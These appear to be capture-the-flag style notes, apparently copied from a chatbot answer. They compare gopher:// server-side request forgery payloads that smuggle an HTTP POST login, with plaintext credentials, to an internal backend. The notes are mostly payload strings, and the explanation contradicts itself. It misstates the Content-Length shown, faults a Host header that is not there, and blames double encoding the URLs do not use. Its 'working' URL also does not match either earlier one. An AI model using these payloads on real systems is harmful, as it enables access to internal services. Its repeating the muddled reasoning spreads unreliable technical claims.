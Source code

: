 ```http
gopher://backend:80/_POST%20/login%20HTTP/1.1%0aContent-Length:%2041%0aContent-Type:%20application/x-www-form-urlencoded%0ausername=white.rabbit&password=dontbelate
```

```http
gopher://backend:80/_POST%20/login%20HTTP/1.1%0AContent-Type:%20application/x-www-form-urlencoded%0aContent-Length:%2050%0Aausername=white.rabbit%0apassword=dontbelate
```
### Issues with the First URL

- The **`Content-Length`** header states `40`, but the actual length of the body (the parameters) is `41` due to the presence of the `&` character instead of `%26`. This mismatch causes issues.
- The `Host` header is likely incorrect or could lead to a misinterpretation of the request.

### Second URL Breakdown (Working)

perl

Copy code

`gopher://backend:80/_POST%20/login%20HTTP/1.1%0aContent-Type:%20application/x-www-form-urlencoded%0aContent-Length:%2041%0a%0ausername=white.rabbit&password=dontbelate`

1. **Single Encoding**:
    
    - This URL is encoded correctly for HTTP transmission.
    - The `%20` (space) and `%0a` (newline) are properly recognized.
2. **Decoding Process**:
    
    - Decoding once gives:
        
        bash
        
        Copy code
        
        `gopher://backend:80/_POST /login HTTP/1.1 Content-Type: application/x-www-form-urlencoded Content-Length: 41  username=white.rabbit&password=dontbelate`
        
3. **Content-Length**:
    
    - The `Content-Length` header matches the length of the body (`41`), ensuring proper processing by the server.

### Summary

- The first URL fails because of incorrect double encoding that leads to mismatched `Content-Length` and improperly formatted headers.
- The second URL is correctly formatted with a single level of encoding and matches the expected HTTP request structure, allowing it to work as intended.

